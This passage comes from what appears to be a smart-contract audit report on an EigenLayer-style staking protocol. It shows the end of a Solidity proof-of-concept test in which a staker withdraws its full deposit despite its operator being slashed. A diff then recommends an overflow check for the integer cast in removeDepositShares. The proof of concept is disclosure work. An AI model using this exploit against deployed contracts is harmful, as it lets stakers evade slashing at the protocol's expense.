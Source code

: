 ```solidity
        shares[0] = sharesToWithdraw;
        withdrawals = staker.queueWithdrawals(strategies, shares);
        stakerShares = uint(eigenPodManager.podOwnerDepositShares(address(staker)));
        console.log("\xF0\x9F\x8E\xAF Staker depositShares: %e", stakerShares);
        console.log("\xF0\x9F\x8E\xAF Staker ETH balance: %e", address(staker).balance);
        
        //// 6️⃣ Complete Queued Withdrawal, the Staker is able to withdraw its full deposit (32 ETH)
        //// while the operator was slashed, thanks to 
        console.log("\n\n----- (6) STAKER WITHDRAW ASSETS -------------");
        console.log("----------------------------------------------");           
        _rollBlocksForCompleteWithdrawals(withdrawals);
        shares[0] = stakerShares;
        for (uint i = 0; i < withdrawals.length; i++) {
            staker.completeWithdrawalAsTokens(withdrawals[i]);
        }
        console.log("\xF0\x9F\x8E\xAF Staker depositShares: %e", stakerShares);
        console.log("\xF0\x9F\x8E\xAF Staker ETH balance: %e", address(staker).balance);

    }
```

## Recommendation
Preventing the casting overflow would prevent the issue:
```diff
    function removeDepositShares(
        address staker,
        IStrategy strategy,
        uint256 depositSharesToRemove
    ) external onlyDelegationManager nonReentrant returns (uint256) {
        require(strategy == beaconChainETHStrategy, InvalidStrategy());
+       require(depositSharesToRemove <= uint256(type(int256).max), "uint256 to int256 overflow");
        int256 updatedShares = podOwnerDepositShares[staker] - int256(depositSharesToRemove);
        require(updatedShares >= 0, SharesNegative());
        podOwnerDepositShares[staker] = updatedShares;

        emit NewTotalShares(staker, updatedShares);
        return uint256(updatedShares);
    }
```

MED
=============================================


LOW
=============================================

# 🔵[L-01] `RewardCoordinator` Merkle Tree implementation is missing leaves-nodes domain separator and tree depth check
